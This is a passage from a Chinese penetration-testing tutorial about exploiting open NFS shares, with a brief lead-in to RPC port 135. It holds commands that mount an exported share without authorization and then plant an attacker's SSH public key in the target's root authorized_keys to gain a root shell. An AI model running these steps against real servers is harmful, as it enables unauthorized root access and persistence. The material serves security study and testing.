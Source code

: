 ![image-20220622170928080](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-9db6cf2148e06dae27e35958350fda8743dd1f89.png)

也可以使用 msf的 nfs/nfsmount模块

![image-20220622170803343](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-ce0da4a92c9829ebd8c8de3eb9c89de9e728078a.png)

#### 2.利用共享文件夹未授权访问

导出的文件夹可以通过创建一个空的本地文件夹，并将共享挂载到该文件夹来访问，如下所示：

```php
mkdir /temp/
mount -t nfs 192.168.1.172:/ /temp -o nolock
```

![image-20220622171751277](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-e4cf70c3091a6d0102589691f3d135aa8164c97e.png)

当成功验证共享挂载后，我们可以通过以下命令来列出所有的本地磁盘信息。如上图所示

```php
df -h
```

此时，我们可以像访问其他文件夹一样轻松的访问共享文件夹。

```php
cd /temp/
ls
```

![image-20220622171829304](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-119d2746e101202991a9badc68d6fd5901b81dd3.png)

<https://www.freebuf.com/articles/network/159468.html>

### getshell

根据存储在导出文件夹中的文件，可能可以通过SSH或RSH和Rlogin来获取到shell访问权限。 我们着重来关注以下两个文件：

> - authorized\_keys
> - rhosts

![针对NFS的渗透测试](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-048efda351212da357f968e8508c06c7bdac8cfe.jpeg)

生成一个SSH密钥对并将其公钥添加到授权密钥列表中，那样我们就可以通过NFS服务器上的SSH与其建立连接了。

```php
cd /root/.ssh/
ssh-keygen -t rsa -b 4096
cp /root/.ssh/id_rsa.pub /temp/root/.ssh/
cat id_rsa.pub >> /temp/root/.ssh/authorized_keys
ssh -i /root/.ssh/id_rsa root@192.168.1.189
```

0x11 RPC(135)
=============

> 135端口主要用于使用RPC协议并提供DCOM服务，通过RPC可以保证在一台计算机上运行的程序可以顺利地执行远程计算机上的代码；使用DCOM可以通过网络直接进行通信，能够跨包括HTTP协议在内的多种网络传输。同时这个端口也爆出过不少漏洞，最严重的就是缓冲区溢出漏洞，曾经疯狂一时的‘冲击波’病毒就是利用这个漏洞进行传播的。
